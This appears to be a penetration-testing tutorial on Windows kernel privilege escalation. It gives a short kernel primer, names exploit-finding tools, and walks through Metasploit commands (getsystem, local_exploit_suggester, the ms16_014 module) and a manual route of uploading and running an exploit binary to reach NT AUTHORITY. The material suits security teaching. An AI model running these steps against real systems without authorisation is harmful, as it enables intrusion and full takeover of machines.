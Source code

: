 # 1 - Windows Kernel Exploitation

### **Windows Kernel**

* A Kernel is a computer program that is the core of an operating system and has complete control over every resource and hardware on a system. It acts as a translation layer between hardware and software and facilitates the communication between these two layers.
* **Windows NT** is the kernel that comes pre-packaged with all version of Microsoft Windows and operates as a traditional kernel with a few exceptions based on user design philosophy. It consists of two main modes of operation that determine access to system resources and hardware:
  * User Mode - Programs and services running in user mode have limited access to system resources and functionality.
  * Kernel Mode - Kernel mode has unrestricted access to system resources and functionality with the added functionality of managing devices and system memory.

### **Windows Kernel Exploitation**

* Kernel exploits on Windows will typically target vulnerabilities in the Windows kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell.
* This process will differ based on the version of Windows being targeted and the kernel exploit being used.
* Privilege escalation on Windows systems will typically follow the following methodology:
  * Identifying kernel vulnerabilities.
  * Downloading, compiling and transferring kernel exploits onto the target system.

### **Tools & Environment**

* **Windows-Exploit-Suggester** - This tool compares a targets patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It also notifies the user if there are public exploit and Metasploit modules available for the missing bulletins.
  * GitHub: [https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
* **Windows-Kernel-Exploits** - Collection of Windows Kernel exploits sorted by CVE.
  * GitHub: [https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135)



## **Practical Demonstration**

### Metasploit Exploitation

{% code overflow="wrap" %}
```bash
# Method 1
# Using Inbuilt cmd to evevate Privilege in a Meterpreter Session.
# it goes through a plateral of techniques in order to elevate our priv.
getsystem

# Method 2
# Metasploit module that enumerate vuln that can help us excalate our priv.
# step 1
search suggester  # works for both windows and linux.
# Enumerate vulnerabilites and correspondant msf modules for the target system (after gaining access).
use post/multi/recon/local_exploit_suggester
options
set SESSION 3  # it requires you select a meterpreter session for priv esc.
run  # Choose an exploit and enjoy!
# you can research on each of the exploits to know the one that works best based on you victim OS version.

# step 2
# in our own case we select the "ms16_014_wmi_recv_notif" xploit.
use exploit/windows/local/ms16_014_wmi_recv_notif
# it uses the default payload of 64bit.
options
set SESSION 3
set LPORT 4422
exploit

# we get a privileged meterpreter session
getuid  # we are NT AUTHORITY
```
{% endcode %}



### Mannual Exploitation

#### Step 1

Start by cloning Windows-Exploit-Suggester onto your VM.

Then run `shell` - to get a cmd prompt shell session on the victim PC.

Then run `systeminfo` - in the cmd prompt session. of your unprivileged victim access.

Copy-paste the results in a .txt file in your kali.

#### Step 2

`./windows-exploit-suggester.py` --update  - Download an updated vulnerability database in your kali.

`./windows-exploit-suggester.py --database <Latest_database.xls> --systeminfo <TXTfile>` - this runs the script and list every vulnerability of the target machine.

> \[E] -> exploitdb PoC.
>
> \[M] -> Metasploit module available.
>
> \[\*] -> Missing Bulletin.

Choose an exploit and enjoy!

You can search the suggested exploit or the CVE-code from the SecWiki windows exploit lists.

[https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

#### Step 3

Copy the .exe executable payload to the target "/Temp" dir.

`cd C:\Temp` - in the low access meterpreter shell session.

`upload ~/payload.exe` - upload the payload.

`shell` - gives us a cmd prompt shell session, `ls` - to verify its uploaded.

`.\payload.exe` - to launch.

`whoami` - we get NT AUTHORITY..

